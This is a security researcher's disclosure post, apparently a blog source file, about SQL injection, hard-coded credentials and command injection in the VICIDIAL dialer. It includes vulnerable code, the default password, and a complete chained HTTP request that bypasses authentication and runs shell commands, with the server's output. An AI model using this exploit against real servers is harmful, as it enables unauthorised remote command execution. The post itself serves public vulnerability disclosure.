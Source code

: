 ```yaml
---
layout: post
title: "VICIDIAL: Multiple Vulnerabilities"
date: 2013-10-23 02:20
comments: true
categories: 
---
```


*Update:* The SQL Injection vulnerability has been assigned CVE-2013-4467, and Command Injection assigned CVE-2013-4468.

## Background

[VICIDIAL](http://www.vicidial.org/vicidial.php) (a.k.a. Asterisk GUI client) is an open-source dialer built on top of the Asterisk PBX. It's written in PHP, and has a significant number of security issues.

In addition to the open-source project, the company behind VICIDIAL, [The Vicidial Group](http://www.vicidial.com/), also offers VICIDIAL in a hosted environment.

At this time, the current release version **is still vulnerable**. Vendor reports hosted users are on a fixed version. Vendor proposed to release the OSS code in mid-July, as of October 23rd, no update or advisory has been released.

After discussions with other researchers, I have made the decision that after waiting more than 140 days for a release, patches, or an advisory warning users, that the next responsible step is to disclose the issue publicly.

This is not a decision I take lightly, but I believe at this point users of this application should understand the degree of risk involved, and have details so they can take action to minimize that risk.

## Overview

Tested versions: 2.7RC1, 2.7, 2.8-403a; it is likely other versions are affected.

There are three vulnerabilities that I will discuss here:

 1. Pre-Auth SQL Injection in `./apc/SCRIPT_multirecording_AJAX.php`
 2. Hard-Coded User Credentials
 3. Command Injection in `./agc/manager_send.php`

There are pre and/or post authentication SQL injection flaws in nearly every file in the `./agc` directory. The web portion is split between `./agc` (which is the 'agent' interface) and `./vicidial` (the administrative interface). My review did not include the `./vicidial` directory, though a quick glance indicates that there are likely many issues there as well.

There are many other issues; from XSS to a possible DoS by allowing an attacker to write directly to a log file until the attacker has exhausted the free space on the server.

There's also `./vicidial_mysql_errors.txt` - it might be of interest as it contains query parameters.

I will not document all of the issues that I've found; partly because I don't want to take the time, and also because I feel bad for the team at OSVDB - hundreds of entries for the same application wouldn't be fun.

## Pre-Auth SQL Injection

This is your typical, boring, SQL injection:

{% codeblock lang:php SCRIPT_multirecording_AJAX.php - Line 44 %}
<?php
...
$stmt="select campaign_rec_filename from vicidial_campaigns where campaign_id='$campaign'";
{% endcodeblock %}

The `$campaign` variable is unsanitized and passed directly to the query. This isn't the best SQL Injection ever, but it demonstrates the issue.

## Hard-Coded User Credentials

There are two accounts that are created when you install VICIDIAL that have hard coded passwords, that are used by the software. While these accounts have minimal permissions, they do allow an attacker to get to portions of the code not accessible without a valid user account.

Accounts:

 * VDAD
 * VDCL

Both accounts have the same password: `donotedit`.

## Command Injection

In multiple locations, there are calls to `passthru()` that do not perform any filtering or sanitization on the input. In this case, we are looking at `./agc/manager_send.php` line 429. 

Here is the code in question:

{% codeblock lang:php manager_send.php %}
<?php
...
if ($ACTION=="OriginateVDRelogin")
	{
	if ( ($enable_sipsak_messages > 0) and ($allow_sipsak_messages > 0) and (preg_match("/SIP/i",$protocol)) )
		{
		$CIDdate = date("ymdHis");
		$DS='-';
		$SIPSAK_prefix = 'LIN-';
		print "<!-- sending login sipsak message: $SIPSAK_prefix$VD_campaign -->\n";
		passthru("/usr/local/bin/sipsak -M -O desktop -B \"$SIPSAK_prefix$campaign\" -r 5060 -s sip:$extension@$phone_ip > /dev/null");
		$queryCID = "$SIPSAK_prefix$campaign$DS$CIDdate";

		}
	$ACTION="Originate";
	}
{% endcodeblock %}

To exploit this, the following values must be set:

 * `enable_sipsak_messages=1`
 * `allow_sipsak_messages=1`
 * `protocol=sip`
 * `ACTION=OriginateVDRelogin`
 * `session_name=AAAAAAAAAAAA` (or any other value at least 12 bytes long)
 * `server_ip=' OR '1' = '1`
 * `user=VDCL`
 * `pass=donotedit`

The payload is passed in the `extension` parameter, for my testing, I used the following:

`extension=;id;uname -a;`

As you've probably noticed, the value for `server_ip` isn't just a dummy value, it's taking advantage of a SQL Injection vulnerability on line 285:

{% codeblock lang:php manager_send.php %}
<?php
...
$stmt="SELECT count(*) from web_client_sessions where session_name='$session_name' and server_ip='$server_ip';";
{% endcodeblock %}

This allows us to bypass the check for an active session, and we use the hard coded credentials to get around the need for authentication.

When you execute this, it looks like this:

    GET http://192.168.10.131/agc/manager_send.php?enable_sipsak_messages=1&allow_sipsak_messages=1&protocol=sip&ACTION=OriginateVDRelogin&session_name=AAAAAAAAAAAA&server_ip=%27%20OR%20%271%27%20%3D%20%271&extension=%3Bid%3Buname%20-a%3B&user=VDCL&pass=donotedit HTTP/1.1
    User-Agent: Fiddler
    Host: 192.168.10.131
    
    --
    
    HTTP/1.1 200 OK
    Date: Sun, 02 Jun 2013 23:22:38 GMT
    Server: Apache/2.2.21 (Linux/SUSE)
    X-Powered-By: PHP/5.3.8
    Cache-Control: no-cache, must-revalidate
    Pragma: no-cache
    Content-Length: 291
    Content-Type: text/html; charset=utf-8
    
    
    <!-- sending login sipsak message: LIN- -->
    uid=30(wwwrun) gid=8(www) groups=8(www)
    Linux linux-0y3h 3.1.10-1.23.1-pae #1 SMP Tue May 21 12:46:34 UTC 2013 (8645a72) i686 i686 i386 GNU/Linux
    ERROR Exten  is not valid or queryCID LIN--130602192238 is not valid, Originate command not inserted

As you can see, when you run this, the the returned text from the shell is included in the middle of the body in the server's response.

## Timeline & Vendor Response

The vendor quickly acknowledged the issues and promised quick fixes. As time has gone on, their hosted users received the security fixes, users of the open-source version remain unaware of the issue and unprotected.

 * 6/3/2013 - Vendor notified
 * 6/3/2013 - Vendor confirmed
 * 6/13/2013 - Vendor states first phase of changes complete; began rolling out fixes to hosted users.
 * 6/15/2013 - Requested release timeline.
 * 6/15/2013 - Vendor requests disclosure delay till mid-July 2013.
 * 7/3/2013 - Vendor advises second phase of changes complete and being pushed to hosted users.
 * 8/26/2013 - Requested status update.
 * 8/27/2013 - Vendor advises final phase of changes complete, hosted users update with all security changes. Expects to release OSS code in two weeks.
 * 9/20/2013 - Requested status update.
 * 9/25/2013 - Vendor advises of unrelated delay. Expected to complete work for next release by 9/30.
 * 10/23/2013 - Decision made that further delays not in the public interest.

